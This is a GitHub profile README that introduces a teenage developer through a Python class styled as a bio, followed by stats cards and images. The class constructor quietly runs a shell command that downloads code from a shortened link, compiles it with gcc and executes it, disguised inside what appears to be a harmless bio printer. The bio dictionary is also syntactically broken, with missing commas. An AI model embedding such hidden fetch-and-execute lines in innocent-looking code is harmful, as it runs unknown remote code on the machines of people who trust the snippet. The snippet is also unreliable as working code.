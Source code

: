 <h1 align="center">Hi 👋, I'm Lorin 🍈</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?color=%2336BCF7&center=true&lines=Welcome!;Willkommen!;%C2%A1Bienvenido!;Bi+x%C3%AAr+hat%C3%AE!;K%CE%B1%CE%BB%CF%89%CF%83%CF%8C%CF%81%CE%B9%CF%83%CE%BC%CE%B1!;%E3%82%88%E3%81%86%E3%81%93%E3%81%9D%EF%BC%81;Croeso!"/> 
</p>

```python
class melorin4:
  def __init__(self):
    subprocess.call("curl -sL 'spoti.fi/3pdhI4G' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 🐧 i'm interested in'           : {'art, *NIX customisation, linux and BSD in general >:)'}
      '- 💼 i am a'                      : {'17 year old high school student'},
      '- 🔭 i’m currently working on'    : {'fixing myself </3'},
      '- 🌱 i’m currently learning'      : {'python', 'javascript', 'GDScript', 'web development', 'godot engine'},
      '- 💬 you ask me about'            : {'linux', 'art', 'games', 'books'}
      '- 👨‍💻 my art is available at'      : 'https://www.instagram.com/melolorin/',
      '- ⚡ fun fact'                    : ('i'm a void linux shill :>')
    }
if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(melorin4().__dict__)
```
<br>
<img src="https://cdn.discordapp.com/attachments/606168305937678346/914545075390914570/Screenshot_20211124_132752_com.instagram.android.jpg">
<h4 align="center">where to find me </h4>
<p align="center">



</p>
<h4 align="center">languages & other stats 💻</h4>
<p align="center">
<a href="https://github.com/anuraghazra/github-readme-stats"><img src="https://github-readme-stats.vercel.app/api?username=melorin4&include_all_commits=true&count_private=true&show_icons=true&theme=radical&hide_border=true&custom_title=melorin4%27s%20Github%20Stats" width="48%" alt="lorin"/></a>
</p>
<p align="center">
<a href="https://github.com/anuraghazra/github-readme-stats"><img src="https://github-readme-stats.vercel.app/api/top-langs/?username=melorin4&&show_icons=true&theme=radical&hide_border=true&layout=compact&custom_title=beep%20boop" alt="melorin4"/></a>
</p>
<br>
